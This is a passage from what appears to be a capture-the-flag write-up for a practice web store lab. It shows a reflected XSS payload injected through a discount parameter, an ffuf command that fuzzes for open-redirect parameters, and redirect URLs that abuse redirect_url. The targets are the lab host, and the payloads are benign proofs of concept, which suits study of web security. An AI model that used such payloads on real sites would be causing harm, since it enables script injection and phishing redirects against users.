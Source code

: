 - `http://nahamstore.thm/product?id=1&discount=test" onmouseover="alert(1)`
	- Move mouse over the box of discount, we can see the XSS.
	![6xss7-2](imgs/6xss7-2.png)

---

## Open Redirect (Task 5)

Open Redirect 1: fuzzing the parameter in the root directory
```
ffuf -u "http://nahamstore.thm/?FUZZ=https://www.google.com" -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -mc 301,302 2>/dev/null -o ffuf.log
```
- `http://nahamstore.thm/?r=https://www.google.com`
	- This will redirect to `https://www.google.com/`

![7open1](imgs/7open1.png)


Open Redirect 2: account config parameter `redirect_url`
- With a registered account, login and add an item to the basket.
	- Go to `http://nahamstore.thm/basket` and click `Add Another Address`
	- Now, we have the URL: `http://nahamstore.thm/account/addressbook?redirect_url=/basket`
- Open a new tab and visit `http://nahamstore.thm/account/addressbook?redirect_url=https://www.google.com` 
	- After clicking `Add Address`, we are redirected to www.google.com
